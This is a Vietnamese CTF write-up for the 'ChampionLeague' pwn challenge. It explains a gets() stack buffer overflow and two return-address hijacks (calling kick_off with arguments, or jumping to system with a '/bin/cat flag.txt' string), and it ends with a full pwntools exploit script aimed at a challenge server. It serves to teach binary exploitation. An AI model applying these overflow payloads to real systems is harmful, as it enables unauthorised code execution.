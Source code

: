 ## ⚡ [ChampionLeague](https://ctf.hcmus.edu.vn/challenges#ChampionLeague)

[![df](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)
[![df](https://img.shields.io/badge/member-viplazy-brightgreen.svg)](https://img.shields.io/badge/member-viplazy-brightgreen.svg)
[![df](https://img.shields.io/badge/188-pts-brightgreen.svg)](https://img.shields.io/badge/188-pts-brightgreen.svg)

Tác giả: `pakkunandy`



Tags: `pwn` `bof` `ret2text` `arg`


### Challenge Description
I will make you learn something about soccer. Follow my lead.

### Summary

Đây là challenge về buffer overflow kết hợp với truyền arguments cho hàm được gọi.  
Đầu tiên, kiểm tra thông tin binary:

```bash
$ checksec cl
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Chương trình này chạy trên nhân x86, đã tắt hầu hết các bảo vệ.

Mở chương trình với **IDA**, ta thấy hàm **main** chỉ gọi hàm **pick_player** chứ không làm gì thêm.

```cpp
char *pick_player()
{
  char v1; // [sp+0h] [bp-88h]@1
  char s; // [sp+44h] [bp-44h]@1

  puts("Player's name:");
  gets(&s);
  puts("Club's name:");
  return gets(&v1);
}
```
Tìm trong cửa sổ function, ta thấy thêm hàm **kick_off**:

```cpp
int __cdecl kick_off(int a1, int a2)
{
  int result; // eax@1

  result = _x86_get_pc_thunk_ax() + 6788;
  if ( a1 == 2355 && a2 == 120 )
    result = system(&aBinCatFlag_txt[result - 134520832]);
  return result;
}
```

Hàm **kick_off** này nhận vào 2 tham số (arguments), kiểm tra nó thiếu thỏa điều kiện sẽ trả về flag. Tuy nhiên, hàm này lại không được gọi ở main, vì thế ta sẽ buffer overflow tại **pick_player** để gọi và thực thi để nhận flag. 






### Exploit #1 kick_off

- Stack tree
    
    Cách bố trí các địa chỉ và vùng nhớ trên stack được cho như trong hình dưới đây
    [![Professional Assembly Language by Richard Blum p.311](./img/01_stack_layout.png)](http://library.bagrintsev.me/ASM/Professional%20Assembly%20Language.2005.pdf)
    > Professional Assembly Language by Richard Blum p.311

    Như vậy, đối với hàm **pick_player**, ta đang nhập dữ liệu vào `Local Varibles` ở phía dưới, mục tiêu là ghi đè lên `Return Address` (nơi đang lưu địa chỉ tiếp theo sẽ thực thi trong hàm `main`), thành địa chỉ của hàm `kick_off`.

    Đối với hàm `kick_off`, bản thân nó sẽ cần 2 arguments, nên ta tiếp tục bố trí lần lượt 2 giá trị thỏa biểu thức so sánh phía dưới lên stack.

- Tìm vị trí địa chỉ trả về của hàm `pick_player`
    ```bash
    $ python -c 'print "A"*72 + "BBBB" + "\n"' | strace ./cl
    --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x42424242} ---
    +++ killed by SIGSEGV (core dumped) +++
    Segmentation fault (core dumped)
    ```
    Như vậy, sau **72** bytes offset thì địa chỉ trả về của hàm main (si_addr) bị ghi đè thành "BBBB" (là giá trị địa chỉ lệnh không hợp lệ dẫn đến break chương trình).


- Xây dựng payload

    Arguments
    ```python
    kick_off_addr = ELF("./cl").sym["kick_off"]
    arg1 = p32(2355)
    arg2 = p32(120)
    ```

    Cấu trúc payload: 
    ```python
    payload = "A" * offset + kick_off_addr + arg1 + arg2
    ```

    Gửi payload này lên server và nhận flag!

### Exploit #2 system function

- Đánh giá
  
  Cách này gần như tương tự cách bên trên, nhưng thay vì truyền tham số cho hàm `kick_off`, ta sẽ truyền tham số cho hàm `system` nằm trong biểu thức điều kiện thỏa mãn của `kick_off` luôn.   
  Đối với `kick_off`, vấn đề xảy ra khi 2 tham số được truyền vào hàm có chứa byte giá trị 0, tức sẽ terminate ngay hàm `gets` dẫn đến chưa đọc hết payload, khiến cho 2 tham số truyền vào bị sai.  
  

- Lấy địa chỉ gọi câu lệnh system thông qua `gdb`:

    ```peda
    gdb-peda$ disass kick_off
    Dump of assembler code for function kick_off:
    ...
    0x0804859c <+44>:    push   DWORD PTR [ebp-0xc]
    0x0804859f <+47>:    mov    ebx,eax
    --> 0x080485a1 <+49>:    call   0x80483d0 <system@plt>
    0x080485a6 <+54>:    add    esp,0x10
    0x080485a9 <+57>:    nop
    ...
    ```

    Kết quả: **`0x080485a1`**

- Lấy địa chỉ của chuỗi `bin/cat flag.txt`:
    
    ```bash
    $ ROPgadget --binary cl --string '/bin/cat flag.txt'
    Strings information
    ============================================================
    0x08048730 : /bin/cat flag.txt
    ```
    
    Vì chuỗi này sẽ được gọi trong hàm `kick_off` nên nó đã được khai báo sẵn trong binary. Nói cách khác, như vậy giá trị địa chỉ nó đủ lớn để không chứa byte giá trị 0, giải quyết được vấn đề phía trên.  
    Kết quả: **`0x08048730`**

- Local exploit
    
    Cấu trúc payload: `payload = "A" * offset + system_addr + arg1`

    ```python
    payload = "A"*72 + "\xa1\x85\x04\x08" + "\x30\x87\x04\x08"
    ```

    Thành công, ta chạy trên server và lấy flag thôi!

## Code

```python
#!/usr/bin/env python

from pwn import *
e = ELF("./cl")

p = remote("159.65.13.76", 61234)
#p = process("./cl")

offset = 72

# This for exploit #1 (didnt check yet)
kick_off_addr = e.sym["kick_off"]
arg1 = 2355
arg2 = 120

payload1 = 'A'*offset + p32(kick_off_addr) + p32(arg1) + p32(arg2)


# This for exploit #2 (worked)
# ROPgadget --binary cl --string '/bin/cat'
bincat = 0x8048730
systemc = 0x080485a1

payload2 = 'A'*offset  + p32(systemc) + p32(bincat)


# final payload
payload = payload2

p.sendline(payload + "\n")
p.interactive()
```


📫 Flag: **`HCMUS-CTF{}`**

---
*[Back to table of contents](../README.md)*
